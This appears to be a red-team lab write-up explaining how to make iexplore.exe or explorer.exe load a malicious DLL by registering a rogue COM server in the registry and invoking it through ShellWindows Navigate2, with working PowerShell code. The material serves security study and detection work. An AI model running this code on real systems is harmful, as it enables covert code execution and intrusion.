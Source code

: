 # Forcing Iexplore.exe to Load a Malicious DLL via COM Abuse

It's possible to force iexplore.exe \(or explorer.exe\) to load a malicious DLL and execute it - a technique which could be used when attempting to evade certain defenses.

The technique works as follows:

* An attacker creates a malicious DLL that he wants iexplore.exe to load and execute - I used a meterpreter payload in this lab
* On a victim system, the attacker defines a new COM server by creating the required keys and values in the registry. The previously created malicious DLL will be set to handle the COM client calls. In our case, the DLL will be _dumb_ and only perform one action - it will execute the meterpreter shellcode
* On a vitim system, the attacker uses an existing `ShellWindows` \(iexplore or explorer\) COM server `9BA05972-F6A8-11CF-A442-00A0C90A8F39`to call our malicious COM server by simply navigating to it
* Iexplore loads the malicious DLL 
* Attacker catches the meterpreter shell

This technique _requires_ iexplore.exe to be running on the target system :\)

See [https://labs.nettitude.com/blog/com-and-the-powerthief/](https://labs.nettitude.com/blog/com-and-the-powerthief/) by Rob Maslen for more details on why this technique works.

## Execution

Below is a powershell code that creates a new COM object with a randomly chosen CLSID `55555555-5555-5555-5555-555555555555` which registers our malicious DLL at `\\VBOXSVR\Experiments\evilm64.dll` to handle incoming calls from COM clients:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
# Code borrowed from https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1 by Rob Maslen
$CLSID = "55555555-5555-5555-5555-555555555555"
Remove-Item -Recurse -Force -Path "HKCU:\Software\Classes\CLSID\{$CLSID}" -ErrorAction SilentlyContinue

# path to the malicious DLL we want iexplore to load and execute
$payload = "\\VBOXSVR\Experiments\evilm64.dll"
New-Item -Path "HKCU:\Software\Classes\CLSID" -ErrorAction SilentlyContinue | Out-Null
New-Item -Path "HKCU:\Software\Classes\CLSID\{$CLSID}" | Out-Null
New-Item -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" | Out-Null
New-Item -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\ShellFolder" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" -Name "(default)" -Value $Payload | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" -Name "ThreadingModel" -Value "Apartment" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" -Name "LoadWithoutCOM" -Value "" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\ShellFolder" -Name "HideOnDesktop" -Value "" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\ShellFolder" -Name "Attributes" -Value 0xf090013d -PropertyType DWORD | Out-Null
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once run, we can see that the new COM object got created successfully in the registry:

![](../../.gitbook/assets/annotation-2019-06-15-165723.png)

We are now ready to execute the payload with the below powershell. What happens here is:

* We're requesting a new instance of the `ShellWindows` `(9BA05972-F6A8-11CF-A442-00A0C90A8F39)` COM object, which actually applies to both explorer.exe and iexplore.exe, meaning with a handle to that object, we can interface with them using their exposed methods
* Specifically, we are interested in getting an instance of a COM object for iexplore.exe, because its COM server has a method `Navigate2(...)` exposed. The `Navigate2` allows us to programatically instruct the iexplore.exe to navigate to a URL. 
* We are asking iexplore to navigate to our newly created malicious CLSID pointing to our DLL instead of a URL:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
# force iexplore to load the malicious DLL and execute it
$shellWinGuid = [System.Guid]::Parse("{9BA05972-F6A8-11CF-A442-00A0C90A8F39}")
$typeShwin = [System.Type]::GetTypeFromCLSID($shellWinGuid)
$shwin = [System.Activator]::CreateInstance($typeShwin) | ? {$_.fullname -match 'iexplore'} | Select-Object -First 1
$shWin.Navigate2("shell:::{$CLSID}", 2048)
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Code execution in action, resulting in a meterpreter session:

![](../../.gitbook/assets/iecomhijacking.gif)

## Shell:::

As a fun bonus, it's possible to call our malicious COM object via explorer by issuing:  
`shell:::{55555555-5555-5555-5555-555555555555}` which of course forces the explorer.exe to load our malicious DLL:

![](../../.gitbook/assets/annotation-2019-06-15-174905.png)

...and resulting in a meterpreter shell:

![](../../.gitbook/assets/explorerhijack.gif)

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/com/component-object-model--com--portal" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/aa752094\(v%3Dvs.85\)" %}

{% embed url="https://labs.nettitude.com/blog/com-and-the-powerthief/" %}




